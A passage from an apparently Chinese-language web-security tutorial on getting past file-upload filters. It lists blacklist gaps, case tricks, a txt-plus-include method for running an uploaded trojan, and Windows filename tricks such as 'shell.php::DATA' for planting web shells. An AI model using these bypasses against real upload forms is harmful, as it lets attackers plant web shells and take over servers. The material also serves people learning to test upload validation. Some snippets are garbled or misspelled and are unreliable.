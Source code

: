 绕过方法：

（1）找黑名单扩展名的漏网之鱼 - 比如 asa 和 cer 之类

（2）可能存在大小写绕过漏洞 - 比如 aSp 和 pHp 之类

能被解析的文件扩展名列表：

```php
jsp jspx jspf
asp asa cer aspx
php php php3 php4
exe exee
```

### 3.配合文件包含漏洞

前提：校验规则只校验当文件后缀名为asp/php/jsp的文件内容是否为木马。

绕过方式：（这里拿php为例，此漏洞主要存在于PHP中）

（1）先上传一个内容为木马的txt后缀文件，因为后缀名的关系没有检验内容；

（2）然后再上传一个.php的文件，内容为

```php
<?php Include(“上传的txt文件路径”);?>
```

此时，这个php文件就会去引用txt文件的内容，从而绕过校验，下面列举包含的语法：

```php
#PHP 
<?php Include("上传的txt文件路径");?> 
#ASP 
<!--#include file="上传的txt文件路径" --> 
#JSP 
<jsp:inclde page="上传的txt文件路径"/> or <%@include file="上传的txt文件路径"%>
```

### 4.配合服务器解析漏洞

http://www.cnblogs.com/shellr00t/p/6426856.html

### 5.配合操作系统文件命令规则

**（1）上传不符合windows文件命名规则的文件名**

```php
　　test.asp.
　　test.asp(空格)
　　test.php:1.jpg
　　test.php:: D A T A
    shell.php:: DATA　　
    shell.php::DATA…….
```

会被windows系统自动去掉不符合规则符号后面的内容。
